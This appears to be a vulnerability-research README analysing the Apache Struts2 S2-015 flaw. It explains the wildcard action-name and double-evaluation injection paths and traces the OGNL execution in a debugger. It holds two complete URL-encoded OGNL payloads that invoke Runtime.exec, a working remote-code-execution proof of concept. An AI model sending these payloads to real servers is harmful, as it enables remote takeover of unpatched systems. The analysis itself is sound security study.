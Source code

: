 # S2-015 Demo

## Summary

Impact of vulnerability: Remote command execution, remote server context manipulation, injection of malicious client side code

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.2`

Problem: 

1. Action的名称没有转义和检查是否符合白名单。一个场景是当action name配置为通配符，攻击者可以通过访问`<ognl_expression>.action`来传入`ognl`表达式，并在加载`jsp`文件时触发执行。

   ```java
   <action name="*" class="example.ExampleSupport">
       <result>/example/{1}.jsp</result>
   </action>
   ```

   ![{3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919]({3F466E24-9A06-4BB6-81E5-FA37C1198FC9}_20200720185919.jpg)

   Payload1: 

   ```
   /s2_015_war_exploded/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action
   ```

   

2. 当`$`和`%`字符组合使用时，`ognl`表达式会被`TextParseUtil.translateVariables`二次执行。

   ```java
   <action name="Helloworld" class="org.test.HelloworldAction">
   	<result name="success" type="httpheader">
   		<param name="headers.foobar">${message}</param>
   	</result>
   </action>
   ```

   ![{E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527]({E450977C-E4EB-4B47-9D8B-494207ADCDDD}_20200721165527.jpg)

   Payload2: 

   ```
   /s2_015_war_exploded/Helloworld.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d
   ```

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## Debug

第二个问题有点类似于`s2-012`，这里不分析了，只看下第一个。

在`s2-015/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:199`下个断点，这块是已经通过前面的interceptor，准备执行action的execute方法。

发送`payload1`触发断点。

![image-20200721182849833](img/image-20200721181343029.png)

跟入`executeResult()`，创建了一个`ServletDispatcherResult`对象，即默认的result类型为dispatcher（转发）。

![image-20200721184020081](img/image-20200721182650792.png)

跟进`execute()`，两行代码分别是解析要转发的地址以及执行转发操作：

```
public void execute(ActionInvocation invocation) throws Exception {
	this.lastFinalLocation = this.conditionalParse(this.location, invocation); //解析要转发的地址，ongl解析就发生在这里
	this.doExecute(this.lastFinalLocation, invocation); //执行转发操作
}
```

继续跟进`conditionalParse()` -> `translateVariables()` -> `translateVariables()` -> `translateVariables()`，该函数首先扫描`location`中是否存在`${`}和`%{}`的字符串，如果有就将其中的表达式截取出来，并通过`stack.findValue()`查找，最终触发`ognl`表达式：

![image-20200721184634621](img/image-20200721184634621.png)

## Reference

- [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)
- [S2-015 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md)

